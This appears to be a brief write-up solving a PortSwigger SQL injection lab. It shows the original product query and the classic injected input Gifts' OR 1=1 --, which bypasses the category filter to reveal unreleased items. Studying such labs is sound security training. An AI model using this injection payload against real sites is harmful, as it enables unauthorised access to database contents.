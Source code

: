 ## Lab Description: 

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/273d4f24-0aa1-46ec-9086-b389698d0319)

## Solution: 
Query made -
```sql
SELECT * FROM products WHERE category = 'Gifts' 
```
To view all the products (both released and not released) , we include Gifts' OR 1=1 -- so that it the condition evaluates to TRUE & displayed all the gifts.

The query looks like
```sql
SELECT * FROM products WHERE category = 'Gifts' OR 1=1 --' 
```

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/9d0251bb-94d1-4e26-a860-0085cf041515)

